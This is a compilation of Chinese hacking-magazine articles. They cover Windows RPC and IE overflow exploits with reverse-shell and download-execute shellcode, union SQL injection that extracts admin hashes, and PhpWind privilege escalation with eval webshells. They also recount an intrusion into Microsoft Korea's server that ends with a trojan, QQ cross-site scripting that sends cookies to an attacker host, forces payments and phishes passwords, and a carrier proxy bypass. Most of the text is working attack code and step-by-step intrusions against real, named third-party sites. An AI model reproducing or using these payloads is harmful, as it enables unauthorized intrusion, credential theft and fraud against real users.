[*] Detected a Windows 2000 target
[*] Sending the final DCE fragment
[*] Got connection from 192.168.0.1:4321 <-> 192.168.0.2:1028
Microsoft Windows 2000 [Version 5.00.2195]
C:\WINNT\system32>
```

图 5

也许你会问，你用 jmpesp.exe 工具找到的那个地址如果不通用怎么办？这种可能是存在的，不过我们可以用 lion 前辈为我们找到的通用地址 `0x77fa1571`，这可是大小通吃的地址啊。

### 三、ms05039 溢出程序

前边我给大家讲了在 MSF 中利用此漏洞的方法，我是极力推荐大家使用这个工具的。但是在有些情况下还是使用一个单独的程序比较方便，比如在渗透测试中。当我们进入到一个内网并想继续渗透的时候，还是单独的溢出程序比较实用——体积小，不需要额外支持。

为了满足这样的需求，我特意花了点时间从 MSF 中提取出关键数据来并试图用 C 重写框架代码。后续经过整理，程序编译运行后的帮助信息如下所示：

```text
ms05039 [Windows PnP Remote Overflow Exploit]
Connect back shellcode edition
Tested on Windows 2000 PRO SP4 CN
Usage:
  ms05039 <host> <conIP> <conPort> <target>
```

# 一个人的战争

```text
Options:
  host    <target IP or domain name>
  conIP   <connect back IP>
  conPort <connect back PORT>
  target  <target system type default is 1>
Targets:
  0 - Universal jmp ebx address on EN System
  1 - Universal jmp ebx address on CN System
```

参数依次是：`<目标主机> <反向连接的IP> <反向连接的端口> [目标类型]`。其中目标类型默认为 1（中文 Windows 2000）。


图6

另外，网上还有一个 houseofdabus 发布的版本，程序为通用溢出程序，使用正向连接方式。其格式为：`win05039 <host> <bind port>`，并提到简体中文系统下默认返回地址需调整。


图7

我们来测试一下：`F:\test>win05039 192.168.0.66 1234`。程序停在 `check your shell on 192.168.0.66:1234`，随后用 nc 连接 1234 端口，成功得到 cmdshell。


图8

## 四、尾声

rpcdcom、lsassrv.dll 等漏洞曾引发蠕虫传播；MS05-039 相关蠕虫（如 Zotob）也已出现。作者呼吁读者重视漏洞安全并进行技术交流。

# Windows 挥之不去的梦！——浅析 IE COM 对象实例化溢出漏洞（MS05-038）

孟方明[-273℃@EST]

## 一、漏洞简介

作者介绍了对新漏洞的持续关注，并引出本文主题 MS05-038。指出该问题与此前 IE 溢出漏洞类似，涉及 `blnmgr.dll`，影响范围较大。

- Microsoft Windows 2000 Service Pack 4
- Microsoft Windows XP Service Pack 1 / Service Pack 2
- Microsoft Windows XP Professional x64 Edition
- Microsoft Windows Server 2003（含 SP1、Itanium、x64 等版本）
- Microsoft Windows 98 / 98 SE / ME
- Internet Explorer 5.01 SP4（Windows 2000 SP4）
- Internet Explorer 6（Windows 2000 SP4、Windows XP SP1/SP2、Windows Server 2003 系列）
- Internet Explorer 5.5 Service Pack 2 on Microsoft Windows Millennium Edition
- Internet Explorer 6 Service Pack 1 on Microsoft Windows 98 / 98SE / Millennium

```perl
$Shellcode_text = "%u".$temp[$i].$temp[$i-1];
$i--;
### 将每两个字节顺序在前面加上 %u
```

漏洞影响范围还是很广的，再仔细看给出的 exploit，发现使用的是本地绑定 shellcode，利用方式为暴力扩大内存。一般在网上公布的都是 POC 版本的 exploit（proof of concept），并不实用。因此，我不光要让大家知道怎么利用这个漏洞，更想让大家学会如何去改造漏洞利用程序。

把这段代码接上前面一段代码，最后加入打印语句把转换后的 shellcode 输出并保存为 createshell.pl。然后在 cmd 下执行类似：`createshell.pl 192.168.0.1 1314`，如图1。

## 二、反向 shell 的改造

我们要改造的是 shellcode。常见有本地 shellcode、正向连接、反向连接、端口复用、添加用户以及下载执行等。这里先改造成反向 shellcode。

```c
unsigned char reverseshell[];
...
memcpy(&reverseshell[18], &port, 2);
memcpy(&reverseshell[11], &ip, 4);
```


上面代码来自 LSASS 利用程序，`port` 是反向连接端口，`ip` 是反向连接地址。需要把这一部分改成接收用户输入，并用脚本语言实现更方便。

到这里 shellcode 基本改造完成。接下来把网上公布的 exploit 代码拼接起来，运行后生成可利用文件。

```perl
#!/usr/bin/perl
use strict;
use Socket;
...
substr($reverse_shell,18,2)=$port;
substr($reverse_shell,11,4)=$ip;
```

```text
MS05-030 Internet Explorer Remote Exploit
Usage:
ms05030.pl connect_back_ip connect_back_port destination_file
[+] Generating Shellcode ... DONE
[+] Creating exploitable file ... DONE
```

上面的代码实现了接收用户输入并写入 shellcode。接下来还要把 shellcode 改成 IE 可接受的 unicode 形式（如 `%u5756%u458b...`），并处理字节顺序。

生成 `superlone.html` 后，用 `nc` 监听 1314 端口并打开该文件即可测试。文中给出了目标机与 nc 端的截图（图2、图3）。


```perl
my $len=length($reverse_shell);
my @temp;
my $i=0;
my $shellcode_text;
while($i<$len){
  $temp[$i]=sprintf("%2x",ord(substr($reverse_shell,$i,1)));
  $i++;
}
while($i<$len){
  if($i % 2 != 0){ ... }
}
```

## 三、下载执行类 shellcode

明白了反向 shell 的改造原理后，下载执行类 shellcode 也类似。先准备原始 download shellcode，再做同样的参数化和编码处理。

```c
char shellcode[];
```

```c
"\xEB\x0F\x58\x80\x30\x17\x40\x81\x38\x6D\x66\x6D\x21\x75\xF4"
...
strcat(newshellcode, argv[1]);
strcat(newshellcode, "\x01");
```


图6

同样我也只是摘出了我们需要的代码，`argv[1]` 就是我们要下载执行的程序的 URL，比如：http://www.xxx.com/run.exe。很简单吧？按照我们上面讲过的改造方法，就来实际操作一下吧。首先我们先写一个小测试程序用来下载执行的，几行代码写一个就 OK 了，如下：

```c
#include <windows.h>

int main(void)
{
    MessageBox(NULL,"do i work?","",0);
    return 1;
}
```


图7

成功编译后起名 test1.exe 上传到你的空间上去。然后我们来验证一下 shellcode 的正确性：

```c
#include <windows.h>
#include <string.h>
char shellcode[] = "...";

int main(int argc, char *argv[])
{
    char *newshellcode = new char[sizeof(shellcode)+strlen(argv[1])+1];
    strcpy(newshellcode, shellcode);
    strcat(newshellcode, argv[1]);
    strcat(newshellcode, "\x01");
    __asm { jmp newshellcode }
    return 1;
}
```

编译成功后我们在命令行下构造如下命令：`shellcode http://222.174.144.130/tools/test1.exe`。如果 shellcode 是正确的则会出现如图4的结果，并会在同目录下生成一个 m00.exe 的程序。OK，shellcode 测试成功后下一步就是来写 exploit 了……


图4


图5


到现在为止我们完成了反向连接以及下载执行两种 exploit 的改造，还剩下一种端口复用的改造我没有介绍。其实方法都是一样的，找一个利用端口复用技术的 shellcode，然后按我们上面那样就可以完成改造了，这个就留给读者自己去实践了。

整篇文章到此就讲完了，希望能给读者们一点小小的启示。有问题的朋友可以去 X 论坛找我，欢迎交流。（文中涉及到的代码 createshell.pl、DLshell.pl、revershell.pl 已经收录在光盘中）

现在风靡黑客世界的各式各样的注入工具比比皆是，常用的有：明小子的“旁注 web 综合检测程序”、啊D的“啊D注入工具”、臭要饭的“绝世猜解”等等……这些工具很多原理基本相同，先用 `and 1=1`、`and 1=2` 判断是否可注入，再根据数据库返回信息推测表、字段等内容。

近段时间在做高校网站调查，发现不少站点并非原创程序，而是简单修改前台页面，后台却保留大量默认功能。尤其是动易文章系统、ASP站点等，程序漏洞和注入点并不少见。

现在很多人做注入依赖工具，但有时工具并不准确。这里用 `union` 语句讲解一种手工高效注入方法，以动易文章系统为例，演示如何定位字段、获取管理员信息。

先进入打印页面（如 `printpage.asp` 或类似页面），通过文章页右下角“打印此文”进入。不同版本字段数可能不同（如 19 或 28 字段），需按目标版本判断。


图1

我们先查看打印页输出字段个数与位置。假设字段总数为 28，在 `ArticleID=1` 后构造：`union select 1,2,3,...,28 from admin`（实际请求中可做 URL 编码），观察页面中哪些序号被回显。


图2

由图2可知回显字段如 3、4、5、8、14。接着将这些位置替换为聚合函数：`count(id)`、`min(id)`、`max(id)` 等，判断管理员数量及 ID 范围。


图3

随后将可显示位替换为 `username`、`password`、`id` 等字段，例如把 3、4、5 改为这些字段，即可在页面直接看到账号、MD5口令和用户ID。


图4

从图4可见对应位置回显用户名、密码哈希和ID。再配合 `where id=...` 逐个枚举管理员记录，可获取全部管理员账号信息，后续可进行口令破解分析。以此登录操作后台了。以上只是 union 语句在注入中运用的一个例子。这种方法的基本步骤是：

- 一、判断页面程序是否可以注入。
- 二、使用 union 语句猜测程序从数据库中读取多少个字段。
- 三、猜测管理员信息存放表的名称。
- 四、猜测管理员的用户名和密码等字段名称。
- 五、计算管理员记录相关信息，如最大 id 号、最小 id 号和记录条数。
- 六、读取管理员信息。

对于我们已经知道的系统，一般来说数据表是不会被改变的，所以我们就可以很快地取得我们想要的信息了，其实我们还可以读取任何其它我们所需要的信息，还可以构造一些语句进行其它的一些操作，当然这个就要看个人的造化了。从这里我们也可以得出一个启示，如果将它写成程序，运用到注入中去，哈哈，是不是会比什么“旁注 web 综合检测程序”的 SQL 注入快几十倍甚至是几百几千倍啊！对于 Union 注入机的打造，我在这里就不论述了，有兴趣有能力的朋友可以自己去研究一下。

这段时间，dvbbs 的漏洞可是层出不穷啊，我看各位站长都让一些小骇客给搞怕了，暴数据库、暴绝对路径、前台后台提权……听说近来还有最新的动网漏洞，可以让别人恶意写入代码，进行挂马。许多站长都逐渐对 dvbbs 失去了信心，开始转用 php 的论坛程序了，我们也知道 php 论坛，目前比较火热，也比较安全，广泛用的有两种：Discuz! 和 phpWind。


Discuz 前段日子也遭殃了，Discuz4.0.0RC3 出了个头像跨站漏洞；phpwind 呢，似乎自从“phpwind1.3.6 的 skin 变量未过滤导致管理员密码更改”这个漏洞过后，就一直很平静。可是好景不长，前几天，PhpWind2.0.2 & 3.31CE 已经有人找出了漏洞了，我也跟鱼儿他们要了个内部版本的漏洞利用工具，这里，我们就来找个目标试试啦。

上百度随便搜索一下关键词：Powered by PHPWind v2.0.2, PLUS V2.0 Code ? 2004-05，就可以找到许多 2.02 版的论坛了，这里我选了一个国外的站来下手吧，如图1。


意大利海外论坛，看最左下角的是论坛的版本，人气也还不错。首先，我们在论坛先注册一个普通的会员，然后退出，重新登录的时候，选择“保存 cookie 一个月以上”，如图2。


登录以后，我们看到等级是“黑工”（最低的普通等级），现在我们拿出漏洞利用工具，在第二步下面填写：你要入侵的论坛的地址还有你注册的时候填写的 E-MAIL，填写好后，把第三步中的两个勾都打上，并且选择是“提升权限”，然后再点击“GOGOGO”按钮，就开始提交信息，如图3。

当论坛版本符合并且漏洞依旧存在的话，就会显示提交成功，并且把你本来的普通用户提升为论坛的超级管理员！如图4。现在我们回到论坛，刷新一下页面，就可以看到自己的等级已经是会长了。还有，在网页中，第一行中的最后，多了一栏“系统”（就是用来给管理员进入后台管理的），如图5。


```php
<?php
copy($_FILES[MyFile][tmp_name], $_FILES[MyFile][name]);
?>

<?php
print<<<EOT
...
EOT;
?>

<form ENCTYPE="multipart/form-data" ACTION="http://目标服务器/index.php" METHOD="POST">
<input NAME="MyFile" TYPE="file">
<input VALUE="提交" TYPE="submit">
</form>
```

保存成 `.htm` 格式的就可以了，然后在浏览器中打开提交表单，选择一个 php 木马，上传，如图7。


凭我们注册时候的用户名和密码，就轻易地闯入了后台了。进入了后台该如何得到 webshell 呢？这可不像 dvbbs 那样可以备份数据库得到 shell，更不可能像一些平常的站一样直接上传 php 木马，对于 php 论坛，还是有它自己的特点的。嘿嘿，这里我们尝试用小花去分析 phpwind 1.3.6 那篇文章中的方法——从模板中获得 webshell。在后台中，找到风格管理——风格模板设置，进入模板设置，在原来的模板的基础上，在模板代码的最前面加下面这段代码，如图6。


我这里选择的是 angel 的 php 木马，上传以后，直接访问你上传的“网址 + 木马文件名”即可，如图8。


呵呵，就这么轻轻松松，webshell 到手了，这里本来可以结束了，因为通常我入侵都到此就结束，渗透到服务器的内部，我不是很喜欢，除非是有目的，或者是有意向的入侵。正准备功成身退之时，突然在想，可否通过其它的地方获得 webshell 呢，于是下载了这套程序，跟朋友 xiaohui 分析了一下代码。第二天，发现只要跟“缓存数据管理”有关联的，都有可能得到 shell，这里经过试验，提供其中一个获得 shell 的办法：

- 安全管理
- 会员禁言
- 查封特殊会员
- IP 禁止
- 不良词语过滤

在“不良语句过滤”这里可以直接写马，写入的内容会在 `data/bbscache/wordsfb.php` 里面，写入一句话木马，这里写入代码为：

```php
a]='aa';eval($_POST['a']);//
```

```html
<style type="text/css">
</style>
```

# 一个人的战争


在“新增——不良语句”写入我们的代码，“替换为”这一栏为空，提交就可以了。这样，一句话木马就提交成功了，然后用 lanker 微型木马控制端来控制（刚才写入的木马密码为 a）。

打开 lanker 微型 PHP 后门客户端，木马地址写上“网址+data/bbscache/wordsfb.php”，密码为 a。然后选择查看“环境变量”，提交，如图10。

后门的话，就自己上传一个其他的 PHP 木马玩吧。其实还有其它方法可以从后台得到 shell 的，有兴趣的朋友就自己去研究研究了。说不定，你还可以研究出个漏洞来呢。

（本章中涉及到的程序 PHPWIND、提权程序及相关 PHP 木马已经收录在光盘中）


SQL injection 即 SQL 注入，对大家来说是老生常谈。自 2002 年开始它就在网络上快速发展，一发不可收拾。现在的动网最新 7.10 版本的注入，已经显示出国内对脚本注入研究的人和技术都在快速进步。

本文针对微软韩国官方网站进行一次安全测试。先在 Google 中搜索可能存在注入漏洞的站点，例如关键词 `co.kr inurl:.asp`，将目标网址导入注入工具进行检测，可批量发现注入点。

发现注入点后，测试地址形如：`http://partner.microsoft.co.kr/partner_portal/q_poll/Poll_List.asp?Num=31 and 1=(select is_srvrolemember('sysadmin'))--`，页面返回正常，说明具备进一步利用条件。


继续测试后确认可利用 sa 权限，且目标未删除 `xp_cmdshell`，可以直接建立管理员。随后在 cmdshell 下执行命令进一步探测系统与服务情况。


开了 Terminal Services 服务（终端 3389 服务），打开远程终端提示连接超时。又继续执行“ipconfig /all”命令，如图4。


服务器使用的是公网 IP 地址，情况来了转机。那么我们是不是可以从 web 路径下手呢？用 NBSI 一个文件夹一个文件夹地检测，终于皇天不负有心人，竟给我找到了 web 的存放路径，如图5。


有了 web 的存放路径使我信心大增，翻箱倒柜找出了克变饭写的 SQL web shell，在本地写了一个 renzha.txt 的文件，内容为“<%execute request("l")%>”，也就是我们常用的一句话后门。打开臭变饭的 SQL web shell，点击开始，提示上传成功，如图6。


打开我们上传的网页路径，如图7。上传成功！我们继续找到蓝屏大叔的一句话木马客户端，把里面的指向路径替换为 `http://partner.microsoft.co.kr/renzha.asp`，其中木马的代码填入我们常用的小马，提交成功，返回给我们一个 webshell，如图8。


我们先来解除对方 C 盘的权限，在 DOS 下执行“cacls c:\ /E /T /G everyone:F”命令，这样 C 盘就变成 everyone 权限可写可读；我们就可以通过 webshell 上传后门程序到 C 盘。我们上传一个修改过的免杀黑洞到它的 C 盘，并起名为 chaoc.exe，上传成功，如图9。


看来微软韩国对病毒还是很放心的，也许他们从没有想过会有人对他们的网站进行安全测试吧。用 NBSI 执行 chaoc.exe，打开黑洞，我们可爱的韩国微软肉鸡上线，如图10。


这样我们就有了控制微软韩国网站的权限；同时也控制了它的服务器。随着 SQL 注入技术的不断提高，网络管理员和程序员更应该尽职尽责，一些大侠的思路和技术也在不断升华，网络安全的较量以后将越演越烈，也希望国人对网络安全的意识更进一步。

> （文章中涉及到的程序 NBSI2、蓝屏大叔最小 ASP 木马、臭变饭的 SQL web shell、黑洞以及入侵动画文件，已经收录于当期光盘中）

## 让QQ网站成为你的黑手

### 由 QQ 网站漏洞来看跨站应用

玄猫 Daniel@{Blackwoods}

## 前言

说实话，最近 SQL Injection 的热潮有点过去了，因为稍微有点网络安全常识的程序员都懂得要过滤字符或者判断值类型了。但是跨站这种漏洞相对来说就没有那么容易防了，程序员很容易疏忽，就连 QQ 这种大站都存在许多跨站的利用点，所以只要是用户输入的、要显示在页面上的东西，通常都要处理下……程序的安全性的优先级应该是大于程序效率的。

而不是看代码来查找跨站点。还有就是我们不一定非得在 QQ 的网站上去找漏洞，因为 QQ 客户端的许多地方也是靠调用网站的相关页面来显示信息的，而这种页面，程序员就更容易疏忽。

好的，来看第一个漏洞，这个漏洞是在 QQ 群 BBS 中出现的，我们打开一个群的 BBS，如图 1，来发个帖子，首先试着在帖子标题、内容两个地方写一些跨站代码，如：`<script>alert(document.cookie)</script>` 来弹出我们在这个地方的 Cookies 信息。

## 前置知识

最近因为发现了几个跨站漏洞，被许多人问跨站怎么用，这里我就举几个简单的例子帮助大家理解。

## 跨站利用一、盗取 Cookies

这个可以说是用得比较多、比较滥的跨站应用了。这种方法对于那些把密码明文保存在 cookies 里的程序可以算得上通杀了，但是 QQ 网站当然不会把密码明文保存，所以我们得到用户的 cookies 后，还要进行一些其他的动作，不过对于 QQ 来说其实还是没有很大的价值。盗取 cookies 的跨站代码是：

```html
<script>document.location='http://www.myzone.com/save.asp?'+document.cookie</script>
```

其中 www.myzone.com 是存放得到的 cookies 数据的文件目录，具体的代码，都已经放在本期光盘上了，大家可以自己看看。


图 1

好的，写入后提交，再打开这个帖子，没有发现有任何异常，不过我们还要看看帖子的源文件。这时需要登录网站：http://group.qq.com，登录进去后，打开这个群的 BBS，然后分析出帖子的 frame 地址，来看源文件，可以看到以下代码：

```html
<tr>
  <td height="29" colspan="2">
    &nbsp;
    <strong>&lt;script&gt;alert(document.cookie)&lt;/script&gt;</strong>
  </td>
</tr>
<tr>
  <td colspan="2" style="word-break:break-all;">script&gt;&lt;alert(document.cookie)&lt;/script&gt;&lt;/td>
</tr>
```

## 跨站利用二、构造表单

经常有朋友反映，在无法用 cookies 欺骗的时候，跨站没有什么用处。真的吗？当然不是。不妨想想，当管理员访问我们加入代码的页面的时候，是以管理员身份登录的，我们可以在页面模拟管理员的身份进行各种操作，而这种操作其实不过就是一些表单的提交。所以我们只要构造一些自提交表单，用 iframe 的方式插入页面，如果程序对提交来路检验不严的话，就可以利用管理员为我们做事了。

自提交表单的构造方法：

```html
<body onload="javascript:document.exploit.submit()">
  <!-- 当页面载入时触发事件，提交表单 -->
  <!-- 这里的 exploit 是我们构造的表单名称 -->
</body>
```

## 跨站利用三、钓鱼式攻击

这个可没有用 URL 欺骗哦，我们可是正正经经地在“QQ 的页面”上构造了登录表单哦！

## 漏洞利用四、挂马

由于玄猫极其鄙视挂马，所以仅作为一种思路，不做具体解释。

这里可以看到，在显示帖子标题和内容的地方，都已经作过了字符的转义，我们是无法跨站的，不过接着往下看，回复帖子的那个表单中有这样的代码：

```html
<tr>
  <td width="108" height="28" align="right" class="td3">帖子标题：</td>
  <td width="382" colspan="3" class="td4"><input name="NewTitle" type="text" class="input4" size="50" maxlength="50" value="RE:<script>alert(document.cookie)</script>"></td>
</tr>
```

不难看到，它并没有作相关的转化，我们来构造一段代码，使得在查看帖子的时候，回复部分可以执行被插入的跨站代码。我们来发表一个帖子，内容自己写，标题写如代码：

```html
"><script>alert(document.cookie)</script>
```

## 跨站点查找

然后发帖，这样再打开这个帖子的话，我们不难看到写的 javascript 代码已经在客户端执行了，如图2，并且页面也没有什么大的错乱（这里图是给大家演示的，在实际应用中，后面的 img 代码应该写作 `` 来取消图片的显示，如图3）。


对于 QQ 群的跨站点的查找还是比较简单的，我们再来看一个稍微复杂点的。我们登录 QQ 家园，地址是 `http://home.qq.com`，然后打开 `http://home.qq.com/home/?type=2` 这个页面来修改自己的家园信息，老规矩，填入跨站代码：`<script>alert(document.cookie)</script>`。

当我们提交的时候，程序提示说含有非法字符，我们猜测程序大概只是在客户端作了检测。对于这种方法我们可以通过修改保存在本地的页面然后提交来绕过这种限制。

我们将框架中的页面 `http://home.qq.com/cgi-bin/qqhome_base_info?uin=0` 保存到本地，然后打开，第 51、52 行的代码如下：

```html
<FORM name=FORM onsubmit="javascript:return validate()"
 action="/cgi-bin/qqhome_change_base_info" method=post target=_self>
```

不难看出，当表单提交时，先用 validate() 检测是否合法。我们就把 onsubmit 这一行为删除，并把 action 补全，更改后的代码为：

```html
<FORM name=FORM
 action="home.qq.com/cgi-bin/qqhome_change_base_info"
 method=post target=_self>
```

这样我们再在“家园简介”中写跨站代码时，就可以绕过限制，提交到服务器，当别人来查看我们家园信息的时候，在客户端即执行此代码，如图4。


其实 QQ 上面的跨站点还有很多，这么大的一个网站，难免会有疏忽，下面再列出一些笔者最近测试发现的跨站点，以帮助讲解下面的应用，如图5。

| 跨站点 | 跨站方式 |
|---|---|
| QQ 秀要求他人付款时给对方的留言 | 直接写入跨站代码，当对方查看请求时执行。 |
| QQ 交友中心昵称 | 需要把页面保存并修改后提交，当对方查看交友资料时执行。 |
| QQ 家园旁注方案名称 | 需要构造字符提交，当对方查看家园时执行。 |
| QQ-zone 名称 | 需要把页面保存并修改后提交，当对方查看 Q-zone 时执行。 |

图5

几个巧妙的应用实例：为了方便讲解，我们就取几个比较典型的跨站实例。由于漏洞很容易被修补，所以大家在看到杂志的时候如果试验不成功，就不要再试了，我们学的是一种思路，而并非一定要骑 QQ 啊。

### （一）利用QQ秀侧账户留言进行越权操作

通过对 QQ 秀支付的过程进行分析可以发现，支付中确认的过程即设置一些 cookie，然后显示商品列表，最后访问一个处理页面进行账户支付，所以我们可以通过自己构造函数的方法来欺骗服务器，达到被侵害者只要打开我们的支付请求时，无论是否同意，只要账户余额足够，均付账的动作，如图6。


这个是玄猫分析出的第一步的一个关键函数：

```javascript
function askAccept(){
  SendItem(...); // 构造请求参数
  if (...) {
    window.location='/mail/inc/cart.html'; // 页面跳转
  } else {
    setCookie('askSession', ...);
    setCookie('senduin', ...);
    setCookie('recvuin', ...);
    setCookie('sendid', ...);
    window.location='/mail/inc/cl-cart.html';
  }
}
```

我们要做的就是构造一个这样的函数，并且去掉最后的 window.location 跳转到第二步的代码。构造这个函数有两个要素：第一个是第三行的 SendItem 的参数，这个参数我们可以通过给自己的另一个 QQ 号码发送一个支付请求，然后查看第一步页面的源代码得到；第二个要素是设置的参数，腾讯很“体贴”地把这些参数都附加在了当前页面的地址上，所以我们只要根据当前页面的地址生成内容就好。

我们登录 QQ 秀，任选一件商品选“他人支付”，然后抓包，获得数据包参数，这里是为后面我们伪造超长网页上文本框允许字节数作准备。然后我们将一个 ASP 文件放在自己的空间上，由这个 ASP 文件根据传来的参数来动态生成内容（此文件已收录至光盘）。最后我们来发包，并把 message 的值修改为 `<script>document.write("<script src='http://blackwoods.cn/0.asp?...`

`"+window.top.location+"</script>")><\/script>")</script><script>Y()</script>`，这里 blackwoods.cn/0.asp 自然就是上面的 ASP 文件地址了。这样当我们发送的请求被打开时，就自动支付了。

## 二、利用QQ登录让人放松警惕进行钓鱼式攻击

因为这个支付请求消息是在用户的计算机上以特殊的 IE 窗口方式打开的，没有地址栏、工具栏和状态栏，只有网页内容，如图7，所以我们进行某些钓鱼式欺骗的时候，用户很难发现，下面我们先来看看如何进行钓鱼式攻击。


图7

我们的思路就是将用户引向我们的网站，让其在不知不觉中还认为自己是在腾讯 QQ 的网站上，而这种信任关系可以让用户放心地在页面中填写 QQ 号和密码，从而让我们能够进行钓鱼式攻击。

钓鱼式页面的构造并不难，我们只要直接 copy QQ 秀网站上的登录表单并进行简单处理就可以了。但是要不引起用户的怀疑，我们还要进行一些小动作。

我们 copy QQ 秀网站的登录表单后，将其页面的 form 对象的 action 属性，即提交的目标页面，修改成我们自己的一个 ASP 网页。这个页面负责收集传递来的 QQ 号和密码、验证码。在收集完成后，为了不引起用户的怀疑，还要将其进一步提交到 QQ 秀的网站上，让用户登录成功（老规矩，我构造的文件放在光盘里了）。

这回我们直接在 QQ 的他人支付留言中填写：

```html
<script>window.location="http://blackwoods.cn/query.asp"</script>
```

当然，`http://blackwoods.cn/query.asp` 就是我们存放这个文件的地址了。

这样等对方打开我们的支付请求时，页面会自动跳转到 `http://blackwoods.cn/query.htm` 这个我们构造的页面。此时由于是特殊状态的 IE 窗口，所以一般用户不能识别究竟是不是 QQ 的网站，等其输入用户名和密码提交后，他的信息就会保存在我们的数据库中，并且自动提交到 QQ 页面，用户只认为向 QQ 提交成功，不会想到我们其实已经获得了他的密码。

## 总结 / 安全指引

试验成功上面说的两个漏洞后，我不禁出了一身冷汗，跨站的危害其实真的是非常大的。以上两个漏洞对于普通网民甚至对安全有一定了解的人来说都是很难防御的。我在想，如果大网站频频出现此类漏洞，我们是否真的应该像那些牛人给的最终防御方法一样——关闭 javascript 脚本。好了，由于篇幅所限，一些细节可能讲得不清楚，欢迎大家来 X 论坛脚本漏洞版交流。

（本章中相关代码已经收录在光盘中）

# 天网短信聊天 GPRS 上网限制

好不容易放假了，回家后却发现 ADSL 已经被老爸 cut 掉了。天！没有网络这个暑假我怎么过？！都闷啊——左思右想，突然灵机一动！我的小 M（手机 M55，可删）好像是可以连上数据线当作电脑 GPRS Modem 用的。立即到同学家上网找资料，果然可以！太好了，我这个暑假有救了。立即开通了 GPRS，接上数据线，设置好后，拨号……等了 N 秒，拨上了！立即打开 IE，设置好代理（这里说明一下：由于广东的动感地带是 20 元包月不限流量的 GPRS，所以使用的是 CMWAP 模式。也就是要通过代理 10.0.0.172:80 或 10.0.0.173:80，而拨上后所得的 IP 是 10 开头的内网 IP，子网掩码为 255.255.255.255。全球通的据说是 CMNET，也就是有自己的独立外网 IP。不过收费嘛，嘿嘿。至于 GPRS 上网的设置，网上有很多教程，这里就不多说了）。

上一下自己的主页，咦？奇怪了，怎么打开个下载对话框，加载 1。接着就是浏览错误，无法打开页面云云。

看来是出问题了，再到同学家找一下资料，论坛上有人说去年 8 月开始已经是这样。而且以前用 10.0.0.173 的代理也可以上，近来好像封了。晕！我 20 块就这样白白被扣掉吗？先冷静下来！慢慢分析一下。我以前也看过关于手机上网的内容，使用的是 HTTP 1.0/1.1 协议，网页载体是 WML 语言。用于手机可以正常上去，而电脑却不可以，我们就先分析一下它的请求包内容。

先打开 IRIS 和 IE，开始侦听，输入一个网址例如 bigfly.happybobby.com，等 IE 返回错误后停止侦听。进入 IRIS，选上 80 端口。发现 IE 与代理服务器的通信如下：

```http
10.100.27.129:1816 -> 10.0.0.172:80（IE 到代理）
GET http://bigfly.happybobby.com/ HTTP/1.0
Accept: image/gif, image/x-xbitmap, image/jpeg, image/pjpeg, application/x-shockwave-flash, application/vnd.ms-excel, application/vnd.ms-powerpoint, application/msword, */*
Accept-Language: zh-cn
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1)
Host: bigfly.happybobby.com
Proxy-Connection: Keep-Alive

10.0.0.172:80 -> 10.100.27.129:1816（代理到 IE）
HTTP/1.1 403 Forbidden
Content-length: 258
Content-type: text/vnd.wap.wml
Date: Wed, 16 Feb 2005 10:14:04 GMT
Via: HTTP/1.1 GDGZ-0-PROXY01-WAP (Traffic-Server/5.2.5 [c SSf])

<?xml version="1.0"?>
<!DOCTYPE wml PUBLIC "-//WAPFORUM//DTD WML 1.1//EN" "http://www.wapforum.org/DTD/wml_1.xml">
<wml><card><p><do type="prev" name="Back" label="Back"><prev/></do>Your client is not allowed to access the requested object</p></card></wml>
```

完全晕倒！看到代理发给 IE 的那段东西了吗？HTTP/1.1

# 一个人的战争

403 Forbidden。然后看下面的 WML 内容，注意那一句“Your client is not allowed to access the requested object”，现在大家明白怎么回事了吧？HTTP 协议里，Header 的信息默认是包含 User-Agent 的。而正是这该死的 User-Agent 把我们的行为暴露了，让服务器知道我们在用电脑上网。广东移动为了不给服务器带来巨大的压力（因为 HTML 通常比 WML 大好几倍甚至好几十倍，图像就更不用说了），而把代理服务器设置为当 User-Agent 包含有“Mozilla”的时候，返回 HTTP/1.1 403 Forbidden。

由于 IE 不支持 WML，而错误地认为有东西下载，所以就会打开下载对话框，直到连接被代理服务器中断为止，就会出现“无法打开页面”的错误显示。

我们再做另外一个试验，打开 Net Tools X（你喜欢的话也可以用 NC，不过 Net Tools X 是自己写的，比较有亲切感，呵呵）。来到万能连接页，IP 填上 10.0.0.172，远程端口 80，然后选好模板，这里我选用“一般 Http 代理 Get 请求（IE 6.0）”。接着把 User-Agent 的值改为“Test Agent 12345678”，连接，发送请求。不久后我们那可爱的移动代理就返回 HTTP/1.1 200 OK, Success 的信息了，如图 2，呵呵！知道如何解决，我们也再做几个实验。我们再把“Mozilla”简单地改为“Pozilla”，也成功了，如图 3，看来移动代理只是封锁了“Mozilla”。

知道了问题所在，我们就要着手解决了。我们知道 IE 的 User-Agent 值是在 system32\urlmon.dll 里的，只要用一些 16 进制编辑器例如 WinHex 或 UltraEdit 打开 urlmon.dll，查找一下“Mozilla”就不难发现整个文件里有 3 处 User-Agent 值。我们所要做的只是修改一下（可以简单地把“Mozilla”改为“Pozilla”，也可以改成别的），另存为一个文件放到系统盘根目录下，再把 urlmon.dll 复制一份以备日后恢复，接下来问题就是替换了。由于 urlmon.dll 在系统启动后会被载入……

可以在本机的 Windows 环境下替换（有双系统的就好办了）。找一个启动光盘来启动，然后把刚才另存出来的文件替换掉 system32\urlmon.dll 和 system32\dllcache\urlmon.dll，重新启动就可以了，替换时需要注意一下几点：

- 1. 替换前一定要备份 urlmon.dll，以备日后恢复，这是一种习惯。  
- 2. system32\urlmon.dll 和 system32\dllcache\urlmon.dll 都要进行替换，否则 Windows 文件保护机制会调用 system32\dllcache\urlmon.dll 覆盖 system32\urlmon.dll。  
- 3. 文件另存到根目录是为了方便替换，替换后就可以删除。  
- 4. 如果系统盘是 NTFS 格式，可以启动到 DOS 后用 NTFSDOS 访问 NTFS 分区。  
- 5. 升级或打过 IE 补丁后，一定要重新修改 urlmon.dll，因为 IE 补丁通常会替换 urlmon.dll。

重新启动后，我们再拨上去，打开 IE 试一下，可以上了，呵呵，这个月又有惊人的流量了。不过这里只是题外话：我们只是研究技术，这样上网也不可以做得太过火，毕竟移动破产了我们也不好过，大家说对不？呵呵。

最后再对这篇文章补充几点：

- 1. 有些网友说 10.0.0.173 经常出问题，事实并不是这样，修改 User-Agent 后你就会发现可以上了。其实现象差异来自移动策略差别。  
- 2. 为什么移动只看“Mozilla”呢？因为大部分电脑浏览器都带有“Mozilla/4.0 compatible”，屏蔽该关键字即可覆盖大量用户。  
- 3. 修改 User-Agent 时如果改了“MSIE 6.0”部分，可能导致 Windows Update 无法访问，Hotmail 会提示“可能不兼容”。  
